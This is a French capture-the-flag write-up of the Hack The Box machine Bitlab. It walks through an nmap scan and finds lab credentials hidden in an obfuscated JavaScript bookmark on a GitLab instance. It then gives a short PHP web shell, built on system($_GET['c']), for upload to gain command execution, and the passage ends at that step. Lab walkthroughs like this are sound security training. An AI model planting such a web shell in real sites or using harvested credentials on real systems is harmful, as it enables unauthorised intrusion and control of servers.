



# Write up de la Box Bitlab

Bonjour à tous les frr, la box Bitlab à été retiré et voici mon write-up pour cette box
Ip de la box: 10.10.10.114

## Enumération de base

On commence par le scan de port:
```
quasar@pwn:~$ nmap -A 10.10.10.114

Starting Nmap 7.01 ( https://nmap.org ) at 2020-01-11 21:05 CET
Nmap scan report for 10.10.10.114
Host is up (0.24s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|_  256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
|_http-server-header: nginx
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.46 seconds
quasar@pwn:~$ 


```

On continue donc sur le port 80, et l'existence d'un robots.txt nous interesse.


Apr_s un peu d'énumération, /help m'interesse, je vais ensuite sur bookmarks.html comme ceci:

Comme vous le remarquez, lorsqu'ont clique sur Gitlab login il n'y a rien, affichons donc le code source:
```html
<!DOCTYPE NETSCAPE-Bookmark-file-1>
<!-- This is an automatically generated file.
     It will be read and overwritten.
     DO NOT EDIT! -->
<META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=UTF-8">
<TITLE>Bookmarks</TITLE>
<H1>Bookmarks</H1>
<DL><p>
    <DT><H3 ADD_DATE="1564422476" LAST_MODIFIED="0" PERSONAL_TOOLBAR_FOLDER="true">Bookmarks bar</H3>
    <DL><p>
        <DT><A HREF="https://www.hackthebox.eu/" ADD_DATE="1554931938" ICON="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAABAAAAAQCAYAAAAf8/9hAAACuklEQVQ4jW2Tz2tcdRTFP+d+33szmUlGjCh0pppQrQYLlcaiRloxi2zERUUR7FYXutCVC/8AFy7MRkHc+B+04EqQLiIqKCqiBSUKRqLplCyMZl7n13vzvtfFi6Vg7/bcc7jcc46oR4ADdO87cS6YXna0jtM7Qq8J36qif9T/Y+fLWzni5nRbx5fa78h4VZBCRKpF3REYDqVHPtzbHb4F/dF/Ktbtdpsha31swTbwKsZKcTrGZqUEkKTujTmiBTcULFbxSjHOn9vf3x8HwO9YvGczJOGlWVFNh7lCkrk9sDrT+sUxp84VxEo62DcbDkQIsUjS8KAsXRgc/v2Jer3lJyxLv4gzp9WJtroxVe+hGdOh+P1qKoDl06XPzTt72wnfX2n4aGDREhGL8nzo3HXn20nQ6vBQ8ckLE3v2tRHTkfju06auftbw6zsJFtDK4yWPPTPl8ED65dvM51qeRHmaCFt33EHWbMOlzTa7PyV66sWJn39hIoC/rptf2mxr+dTMO3dHBOa4C1tPhI65O4AEhAA7P6T+6zepnn9zCMDld9tKMvzE6RLVf5U7CB1L3GsiR0GwAK2OEyNURY3MLzpmNVYbe7TvyJD3JXDHZc44F6OBhOMWbpJ8NJDGuUBe7wqQ982JW6qPiOVEnNmYcvJs6ZOhNL4hH9+QT4bSybOln9koKKcARCE5cUu93tKaZdnnsXIac9EeebrQylrBZCgWFuuk5gfyZtvZ/jrjx63Mp2OLFmobBXB86f73Qgivz2bVdJwrTTJ078qMh9cKAH7+KuPP7YSqxJvzXiZJaFRV9f7e7m9v/C/K7lV0VyxGbmVpAkjT6FlLUXLTUZSrYnSh3+9PAuB5npeDf5qXFzppB+lRoTRJUTbnZE0nSWVC5mgWKz7Y2x29kuf90a1tvE2dWcd1VGe/Jrhtnf8FOj1caqcXEh4AAAAASUVORK5CYII=">Hack The Box :: Penetration Testing Labs</A>
        <DT><A HREF="https://www.docker.com/" ADD_DATE="1554931981" ICON="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAABAAAAAQCAYAAAAf8/9hAAACE0lEQVQ4jbWTu2tUURDGf3P23JvdKxvRGIwEA1okmNSWAcFCBIs0+QfEF0hsFFtPwNIHKFosWGhhYbCzEERMQCIoiBYJCpEYAxJNk6e5u3vOGYtdkvVBsPGDYZhhHh/fnAPbwTmDU7Ntzf/Fva/XqMzfBmQz9xsj2/SCKoyOClP9wsC0MtUvxHgAKIETuAKI4iS2DpDWgMr8LXxtEGNnIOxDzCJSSDiz/wQAR15YhjqPsjTwDCcRp8bi1NDxsYtAmVp1FfQLhG8QFJF1qCdcf9dLVlonD3sp736K/XQWqOAkNhjcmbmKMILyHGO6sckc3ndTsMugBqULa2dZWRtlR+kN+foiWft7fHW8wN2Z40AvsIzIEkoOugaaI6wSwwYavhPjEhI68dVBitkuNPbg/RML5j7W7EHjDzQmiEQ0GiASQ1MjUTQakmJKqEP0F1nJH3J5YMFC/EyIHfhahgioyqa82qqw1kmzgJjXnDt4o3FSZywhvKSteJh6rYaQILLVJpvbA6ZgEfGE/BIgDKvBSTBAhRBWSNtSotYBj2qLRUizhDTboFo9xflDk6AwJgHAMNL3Ae9PkhQXyMoppfaErD0h29nwSRoQM0EtH+JC3wOcM7DF0qIqiDzm5vQkxdIxfN6HUqYgG2DnSJNXnO55i5tta9b+8hKb+qj8mfw3tDSq8IjmRxkDhmF6XGAi4txftjbwE2NZ43Pq//CoAAAAAElFTkSuQmCC">Enterprise Application Container Platform | Docker</A>
        <DT><A HREF="https://www.php.net/" ADD_DATE="1554931999" ICON="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAABAAAAAQCAIAAACQkWg2AAAAb0lEQVQ4jWNsaDjAQApgIkk1ORpY0Pjh4eIQxsqVL4m1QVNTk4ANWE0NDxeHcNFlr1+/Dld0/fp1glwmZA7cMXi4dAtWiHXILkYGyLIscFcywMLh+vXrcAamLMJJ8DDFZCCzmfC4BNl4OGCkeWoFAHM4Vw1BMLruAAAAAElFTkSuQmCC">PHP: Hypertext Preprocessor</A>
        <DT><A HREF="https://nodejs.org/en/" ADD_DATE="1554932008" ICON="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAABAAAAAQCAYAAAAf8/9hAAAC1UlEQVQ4jW2TT4iVVRjGn+c957vfnWlmuNZgKCkEhS7cmSS2aTe00M0wQn9IsRSCIMyFMbgqdKVtok2Bi1EQvAspMHATbVwWLQpiQKjUHJs7c6/3u/f77vfvPC6u84forA6H933Oy/vjB2w7CzcX3Mb9/A/vv3Xh9plfz9489cvpq+/M/V8NAHD8CNc+jhoAPr4zv3+SzUVfR++ZYpZ5QL+fBzNcQ8Clr08sLW8EtY+3a24kvXv99ZnZl3afi0L86WQ8OVX1glR5hYoYpgVdw5G1EiOv9P7ufHn1/PfJ5gSnb8/NT+2ILkZuYl8YGFzdKK00jxChLoCiCMiyvPLeR1PTTSDojxpavDz/7S1789zR2ezfaMk89+XDsgxBAuApEgGEQICE0RdlqUE/K513+//pdJbwwczztucVb3XSHKaPGczDAQQkwiAYRKMAiQLrOkCC6z4ZhIdrnfTgnlfNWvFIzThivtY0lQAgApSe/S6BBEmjyrpmFYIe9boWAtiabcl6+SyjmLQ6QtH3NAcoiOQ2TAAUSEDoDRKm+QjeO/Y6PRqeG8AZETUMf/71BEUeYEZIgKQt3hSMRFYV8GaILQKmpmGjaiQfU0kxxOp6X49XUjhPSALJbSGERIBQpRrNhlerSGXNVpMZ07Cy3g2NhuejlUSDtJD3JkHjJRICJFCiyKwqQgjSzhdepE3s7YYHq+szRajNOauKssKDhz2ajTEqiAgaoxxvo3beLCmy6coVwb557ae1pFueNPKei13U8I4rnaTqDTK5yCRKGk9QEaSfiCIG3Cvq6mT7wztdBwD3f7z/+643dl8nANIOoWGNPCuxq7VDdQXUQXSxd6Msz7O8uDJYzU7c/fzuz1uUFuDQHst05OKRA867xVCFtw+8vBc7p1sYpgVGo/JGkiaXrn1067f/9myZuYBNVQ9/cfjY0a/mlj/77szyJzdOHdvUeVyzKeFT9k18v9LwrSUAAAAASUVORK5CYII=">Node.js</A>
        <DT><A HREF="javascript:(function(){ var _0x4b18=[&quot;\x76\x61\x6C\x75\x65&quot;,&quot;\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E&quot;,&quot;\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64&quot;,&quot;\x63\x6C\x61\x76\x65&quot;,&quot;\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64&quot;,&quot;\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78&quot;];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()" ADD_DATE="1554932142">Gitlab Login</A>
    </DL><p>
</DL><p>
```
Regardons plus précisement la partie en javascript:
```javascript
javascript:(function(){ var _0x4b18=[&quot;\x76\x61\x6C\x75\x65&quot;,&quot;\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E&quot;,&quot;\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64&quot;,&quot;\x63\x6C\x61\x76\x65&quot;,&quot;\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64&quot;,&quot;\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78&quot;];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```

Lançons une console et essayons de comprendre:


Mmmmh, fort interessant ! 
Utilisons donc les credentials `clave:11des0081x` pour se connecter et rendons nous dans Administrator/Profil, il nous  suffit maintenant d'upload un shell.php qu'on va faire:
```php
<?php
echo "<pre>";
system($_GET["c"]);
echo "</pre>";
?> 
```


